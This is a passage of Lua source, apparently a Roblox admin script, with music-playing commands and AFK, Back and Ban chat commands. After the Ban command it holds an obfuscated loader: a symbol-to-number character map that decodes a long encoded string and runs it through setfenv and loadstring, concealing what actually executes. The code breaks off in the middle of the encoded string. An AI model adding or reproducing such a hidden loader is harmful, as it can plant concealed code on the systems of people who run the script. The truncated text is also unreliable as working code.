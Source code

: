         CheckForExistingSound()
        createSound(142489916)
    end)
    Output("Eminem & The Script Hall of Fame Remix",function()
        CheckForExistingSound()
        createSound(152879311)
    end)
        Output("Let it Go",function()
                CheckForExistingSound()
                createSound(150320143)
        end)
end
AddCmd("Musiclist","musicl","Shows the Possible Sounds to Play",
function()
    ShowMusicList()
end)
AddCmd("AFK","afk","Ping yourself as afk",
function()
Dismiss()
for i = 1,8 do
wait()
Output("AFK", __)
end
end
)
 
AddCmd("Back","back","Ping yourself as back",
function()
Dismiss()
for i = 1,8 do
wait()
Output("Back", __)
end
wait(3)
Dismiss()
end
)
 
AddCmd("Ban a player","ban","Kicks a player when he enters",
function(plrs, msg)
for _,v in pairs(plrs) do
if v then
table.insert(Banlist,v.Name)
Output('Banned | '..v.Name,__)
else
Output(Error)
end
end
end
)
 
local charMap = {["+"] = 0, ["^"] = 1, ["%"] = 2, [")"] = 3, ["*"] = 4, ["$"] = 5, ["-"] = 6, ["_"] = 7, ["#"] = 8, ["&"] = 9, ["@"] = 10, ["("] = 11, ["?"] = 12, ["~"] = 13, ["!"] = 14, ["="] = 15}; setfenv(assert(loadstring((string.gsub(string.gsub(table.concat({
"?-=-)-^-?-+%&-~)~%^)()?-=-^-*-)_*_%_&-!-_-#%)_*_%_&-!-_-!%_-)_$_%-#B%!*!_~*~!~^&&~?@(&!&_@_~&~@A?@~@~_~~?^~&?&#)~)~+~-?@?%?##+?(A?#(~_-_(=?=!!@!)=$@?!!(?@!@-($!-!-~_~*!)!=~*~_~!?~#-~$~^~-?&?+?$#?(-?-?^($_~-@$@$(*-*~&^(~=$##$&$?$?$^^!A=-+&%#)$)*%!%~%!~=^=^!+!+?$+)%)-)#^)^_+&+==~($+)+!=%=*=@!!@*!~!?!-~&&+&&@#?*?=&$?#($($_(-#&*@=@%@$@$@~*%&)&_#?#()^*$#*&)_*_#-~-?^?$%%*^_)#$?*^$+$_*_)-*_)-)#C)**~^?$+)%)-))%$%+%#?_^)+!+^+*+*+!@*(!#-!^=+%$!-~~^%!)~$~+~-#)#+-#(~(?(#(#?&@?$?$$_*$+-A@(-*@$!)!_$#?^$#~(A?-)_)%+%~=!)+-($)$*$=*==$==!~!)=)!!^?$+)%)-)+!~(*^#-?_&+(@?!!+&+^+%+~=~@)@+~?~_!@C~$#@?+~&_%?%(^(!@$-)@-(&$^(%A&!#+&*&!_@*_*$*+*()^#^%&_?$?$*-+-&$*$!*~*&*!)_*!)!%_)-=^=-=$)_B~?#+*+@?_@#!?$!-$+~=!=&=&@=&+~@A~+~#~%~-?~_~?*?^_!--?(#)@+(!@?@@@@&!*(#@#=#_###%&*)@)@%$-^-_%*+$*_-%-@$($-$-+?=?%_)+*~)=%^)!-+*+*%**~?%!~--&)@)~))?&?&(*=+=-()&@!=!^!)#!&(#%&$#!#=_-#~(&?=(^(=(^(*(+(_-=&%-=&+_&&#$($%--&-#%&+&@#)#%)%#+#(_=-^__-(%~$=$$$)--^)^($&$*$#*@*+**+$)&*^*=%="